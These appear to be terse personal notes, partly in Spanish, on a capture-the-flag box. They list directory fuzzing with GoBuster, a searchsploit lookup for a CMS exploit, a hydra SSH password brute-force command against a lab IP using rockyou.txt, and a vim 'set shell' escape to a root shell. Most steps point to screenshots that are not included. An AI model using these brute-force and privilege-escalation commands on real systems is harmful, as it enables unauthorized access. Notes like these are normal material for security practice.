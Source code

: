 ![[Pasted image 20231201171057.png]]
Fuzzing with GoBuster

![[Pasted image 20231201171224.png]]
Searchsploit to find vulnerabilities in CMS service

![[Pasted image 20231201171400.png]]
Exploit works for same version as apache web service

![[Pasted image 20231201171658.png]]
Run webexploit
O rockyou.txt (probar con diferentes diccionarios)
![[Pasted image 20231201172646.png]]
hydra -l mitch-P rockyou.txt ssh://10.10.100.17/       
 
ssh -p

si tienes permisos de vim as root

set shell=/bin/bash
shell
![[Pasted image 20231201173403.png]]
